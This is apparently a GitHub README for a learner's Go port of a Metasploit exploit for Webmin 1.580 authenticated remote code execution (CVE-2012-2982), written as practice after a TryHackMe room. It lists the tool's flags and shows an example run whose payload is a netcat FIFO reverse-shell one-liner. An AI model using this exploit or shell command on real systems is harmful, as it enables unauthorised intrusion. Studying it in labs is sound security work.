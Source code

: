 # PoC scripts in GO

Various PoC scripts rewritten in GO.

I am learning GO. Inspired by [this TryHackMe
room](https://tryhackme.com/room/intropocscripting), I have decided to rewrite
PoC scripts in GO as practice.

## CVE-2012-2982 Webmin 1.580 RCE

Webmin 1.580 /file/show.cgi authenticated remote code execution (CVE-2012-2982).
This script is based on [the exploits/unix/webapp/webmin_show_cgi_exec module in
Metasploit](https://www.rapid7.com/db/modules/exploit/unix/webapp/webmin_show_cgi_exec/).
The original source code can be found [on Metasploit's Github
repo](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/webmin_show_cgi_exec.rb).


### Usage

```
$ go run main.go
Usage of /tmp/main:
  -password string
    	Password for authentication, required
  -path string
    	Root path of the target application, default: "/" (default "/")
  -payload string
    	Payload, required
  -rhost string
    	IP of target application, required
  -rport int
    	Port number of target application, required (default -1)
  -ssl
    	Enable SSL, default: off
  -username string
    	Username for authentication, required
  -verbose
    	Enable verbosity, default: off
```

Or build a static binary with `go build` if you wish.

### Examples

```
$ go run main.go -rhost 127.0.0.1 -rport 80 -username root -password toor -payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f"
[*] Logging in
[i] Authentication successful. Received session ID: 796d606631398933b534a97901a0ad03
[*] Running vulnerability check
[i] Target is vulnerable
[*] Triggering payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f
[i] Finished
```

Add the `-verbose` flag if you wish detailed outputs.

Add the `-ssl` flag if application uses HTTPS instead of HTTP.

Add the `-path <PATH>` flag if the target application does not run on the
server's root (/) page.
